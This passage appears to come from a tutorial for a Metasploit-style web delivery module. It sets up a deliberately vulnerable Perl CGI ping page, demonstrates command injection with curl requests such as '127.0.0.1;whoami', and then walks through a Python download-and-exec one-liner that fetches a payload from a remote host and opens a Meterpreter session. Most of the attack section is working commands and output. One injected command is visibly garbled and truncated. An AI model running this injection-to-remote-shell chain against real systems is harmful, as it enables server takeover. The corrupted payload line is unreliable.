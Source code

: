 5. Make it executable: `chmod +x /var/www/cgi-bin/example.pl`

We can verify this page is exploitable by chaining commands so instead of submitting `127.0.0.1` we'll submit `127.0.0.1;whoami`.

`curl -X POST http://127.0.0.1/cgi-bin/example.pl --data-urlencode "ip=127.0.0.1;whoami&submit=submit"`

or via GET request:

`curl "http://127.0.0.1/cgi-bin/example.pl?ip=127.0.0.1%3Bwhoami&submit=submit"` (note url encoding)

```
<!DOCTYPE html
	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
	 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" xml:lang="en-US">
<head>
<title>Untitled Document</title>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
</head>
<body>
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.030 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.030/0.030/0.030/0.000 ms
www-data
<hr><form method="post" action="/cgi-bin/example.pl" enctype="application/x-www-form-urlencoded" name="ping"><p>Enter IP to ping:</p><input type="text" name="ip" value="127.0.0.1;whoami" /><input type="submit" name="submit" value="submit" /></form>
</body>
</html>
```

### Exploitation

1. `use exploit/multi/script/web_delivery`
2. `set lhost 192.168.2.117`
3. `exploit`
```
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Using URL: http://0.0.0.0:8080/vNPlsjE
[*] Local IP: http://192.168.2.117:8080/vNPlsjE
[*] Server started.
[*] Run the following command on the target machine:
python -c "import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/vNPlsjE'); exec(r.read());"
msf exploit(web_delivery) >
```
Now browse to the site, and submit the form with the text `127.0.0.1;python -c "import urllib2; r = urlli7:8080/vNPlsjE'); exec(r.read());"`. If the site seems to freeze, exploitation was most likely successful.
```
[*] 192.168.2.117    web_delivery - Delivering Payload
[*] Sending stage (38500 bytes) to 192.168.2.117
[*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.117:47660) at 2017-03-04 14:52:38 -0500
```
